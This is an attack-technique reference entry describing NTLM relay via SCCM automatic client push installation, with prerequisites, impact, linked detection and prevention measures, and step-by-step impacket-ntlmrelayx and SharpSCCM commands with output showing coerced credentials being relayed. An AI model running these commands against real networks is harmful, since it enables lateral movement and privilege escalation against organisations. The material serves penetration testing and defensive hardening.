 # ELEVATE-2

## Description
NTLM relay via automatic client push installation

## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to HTTPS (TCP/443) on a management point
- Connectivity from the primary site server to SMB (TCP/445) on the relay server
- Primary site server settings:
    - Automatic site-wide client push installation is enabled
    - Automatic site assignment is enabled
    - `Allow connection fallback to NTLM` is enabled for client push installation
    - PKI certificates are not required for client authentication
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Relay target settings:
    - Connectivity from the relay server to SMB (TCP/445) on the relay target
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target

## Summary
When SCCM automatic site assignment and automatic client push installation are enabled, and PKI certificates aren’t required for client authentication, it’s possible to coerce NTLM authentication from the site server's installation and machine accounts to an arbitrary NetBIOS name, FQDN, or IP address, allowing the credentials to be relayed or cracked. This can be done using a low-privileged domain account on any Windows system.

## Impact
Client push installation accounts require local admin privileges to install software on systems in an SCCM site, so it is often possible to relay the credentials and execute actions in the context of a local admin on other SCCM clients in the site. Many organizations use a member of highly privileged groups such as "Domain Admins" for client push installation for the sake of convenience.

If all configured accounts fail when the site server tries to authenticate to a system to install the client, or if no specific installation accounts are configured, the server tries to authenticate with its domain computer account. If SMB is used, [TAKEOVER-1](../../TAKEOVER/TAKEOVER-1/takeover-1_description.md) and [TAKEOVER-2](../../TAKEOVER/TAKEOVER-2/takeover-2_description.md) may be possible. If the WebClient (WebDAV) service is enabled on the site server, it is possible to coerce NTLM authentication via HTTP, allowing relay to LDAP or HTTP to conduct attacks such as Shadow Credentials, Resource-based Constrained Delegation, or AD CS ESC8 to take over the server ([TAKEOVER-3](../../TAKEOVER/TAKEOVER-3) or [TAKEOVER-4](../../TAKEOVER/TAKEOVER-8/)).

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-3: Monitor client push installation accounts authenticating from anywhere other than the primary site server](../../../defense-techniques/DETECT/DETECT-3/detect-3_description.md)
- [PREVENT-1: Patch site server with KB15599094](../../../defense-techniques/PREVENT/PREVENT-1/prevent-1_description.md)
- [PREVENT-2: Disable Fallback to NTLM](../../../defense-techniques/PREVENT/PREVENT-2/prevent-2_description.md)
- [PREVENT-5: Disable automatic side-wide client push installation](../../../defense-techniques/PREVENT/PREVENT-5/prevent-5_description.md)
- [PREVENT-8: Require PKI certificates for client authentation](../../../defense-techniques/PREVENT/PREVENT-8/prevent-8_description.md)
- [PREVENT-11: Disable/uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-12/prevent-12_description.md)


## Examples

It is not possible to identify whether automatic site-wide client push installation, automatic site assignment, and `Allow connection fallback to NTLM` are enabled without attempting this attack.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the relay target and the SMB service:

    ```
    # impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t <RELAY_TARGET_IP>
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-26 15:49:48] [*] Protocol Client MSSQL loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client RPC loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMB loaded..
    [2024-02-26 15:49:48] [*] Protocol Client DCSYNC loaded..
    [2024-02-26 15:49:50] [*] Running in relay mode to single host
    [2024-02-26 15:49:50] [*] Setting up SMB Server
    [2024-02-26 15:49:50] [*] Setting up HTTP Server on port 80
    [2024-02-26 15:49:50] [*] Setting up WCF Server
    [2024-02-26 15:49:50] [*] Setting up RAW Server on port 6666

    [2024-02-26 15:49:50] [*] Servers started, waiting for connections
    ```

2. Use SharpSCCM's `invoke client-push` function to register a new device with the management point and send a DDR to initiate automatic client push installation to your relay server running ntlmrelayx:

    ```
    SharpSCCM.exe invoke client-push -sms <MANAGEMENT_POINT> -sc <SITECODE> -t <NTLMRELAYX_LISTENER_IP>

    [+] Created "ConfigMgr Client Messaging" certificate in memory for device registration and signing/encrypting subsequent messages
    [+] Reusable Base64-encoded certificate:

        308209D2...020207D0

    [+] Discovering local properties for client registration request
    [+] Modifying client registration request properties:
        FQDN: <NTLMRELAYX_LISTENER_IP>
        NetBIOS name: <NTLMRELAYX_LISTENER_IP>
        Site code: <SITECODE>
    [+] Sending HTTP registration request to <MANAGEMENT_POINT>:80
    [+] Received unique SMS client GUID for new device:

        GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C

    [+] Discovering local properties for DDR inventory report
    [+] Modifying DDR and inventory report properties
    [+] Discovered PlatformID: Microsoft Windows NT Server 10.0
    [+] Modified PlatformID: Microsoft Windows NT Workstation 2010.0
    [+] Sending DDR from GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C to MP_DdrEndpoint endpoint on <MANAGEMENT_POINT>:<SITECODE> and requesting client installation on <NTLMRELAYX_LISTENER_IP>
    [+] Completed execution in 00:00:16.1952455
    ```
    **Note**: Sometimes, this command results in a client device record being created, but SCCM does not kick off automatic client push installation right away. Running the same command again should kick off the process.

3. After a few minutes, ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
    ```
    [2024-02-26 16:19:47] [*] SMBD-Thread-5 (process_request_thread): Received connection from <SITE_SERVER>, attacking target smb://<RELAY_TARGET>
    [2024-02-26 16:19:48] [*] Authenticating against smb://<RELAY_TARGET> as MAYYHEM/CLIENTPUSH SUCCEED
    ```


### Cleanup
It is not possible to remotely delete device records or remove CCRs in the retry queue that are created by heartbeat DDRs without having `Full Administrator` privileges to SCCM. By default, the site will retry client push installation every 60 minutes for 7 days, and if a newly discovered device sits in the client push installation retry queue for more than 24 hours, an error message may be displayed in the console to administrators.

With `Full Administrator` access to SCCM, artifacts created by SharpSCCM that cause client push installation retries can be removed from the site server and database through the ConfigMgr console or using SharpSCCM.

The following command can be used to identify the device's ResourceId:

```
SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Executing WQL query: SELECT ResourceId,Name,SMSUniqueIdentifier FROM SMS_R_System WHERE Name LIKE '%<NTLMRELAYX_LISTENER_IP>%'
-----------------------------------
SMS_R_System
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777236
SMSUniqueIdentifier: GUID:593FA39D-B6C6-4B8F-A4DE-2454503116FC
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777237
SMSUniqueIdentifier: GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
-----------------------------------
```

The following command can be used to remove a device with a specified GUID:

```
SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Deleted device with SMSUniqueIdentifier GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
[+] Completed execution in 00:00:01.8554465
```

## References
- Chris Thompson, [Coercing NTLM Authentication from SCCM Servers](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Chris Thompson, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM)